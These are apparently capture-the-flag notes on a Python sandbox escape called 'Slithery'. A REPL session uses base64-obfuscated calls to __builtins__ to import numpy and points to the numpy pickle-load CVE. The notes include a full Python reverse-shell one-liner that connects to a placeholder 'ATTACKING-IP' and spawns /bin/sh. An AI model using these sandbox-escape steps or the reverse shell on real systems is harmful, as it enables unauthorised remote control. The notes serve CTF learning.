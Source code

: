 # Slithery

```python
504 temple@occam:~/tmp/ctf/slithery
$> python3
Python 3.8.2 (default, Jul 16 2020, 14:00:26)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> uOaoBPLLRN = open("sandbox.py", "r")
>>> uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
>>> print(uDwjTIgNRU)
1
>>> ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
>>> print(ORppRjAVZL)
['from', 'base64', 'import', 'b64decode']
>>> AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
>>> print(AAnBLJqtRv)
base64
>>> bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
>>> print(bAfGdqzzpg)
b64decode
>>> uOaoBPLLRN.close()
>>> HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
>>> print(HrjYMvtxwA)
<function b64decode at 0x7f0a0fb6e550>
>>> RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))
>>> print(RMbPOQHCzt)
<module 'numpy' from '/home/temple/.local/lib/python3.8/site-packages/numpy/__init__.py'>
```

-   `getattr`- Gets a reference to the `base64`.`b64decode` function.

    -   https://www.programiz.com/python-programming/methods/built-in/getattr

-   `__builtins__`

        * https://docs.python.org/3/library/builtins.html

        ```python
        >>> __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')]
        <built-in function __import__>

        >>> HrjYMvtxwA(b'bnVtcHk=').decode('utf-8')
        'numpy
        ```

    > Getting the 'import' built-in function and using it to load 'numpy'

    -   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    echo 'print("Hello")' | base64
    echo cHJpbnQoIkhlbGxvIikK | base64 -d

    "cHJpbnQoIkhlbGxvIikK".decode('utf-8')
    __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))

---

* [Numpy CVE](https://www.cvedetails.com/cve/CVE-2019-6446/)
* [CVE details](https://www.cvedetails.com/vulnerability-list/vendor_id-16835/product_id-39445/version_id-271909/Numpy-Numpy-1.16.0.html)

```bash

RMbPOQHCzt.load()
```

* [pickle](https://docs.python.org/3/library/pickle.html)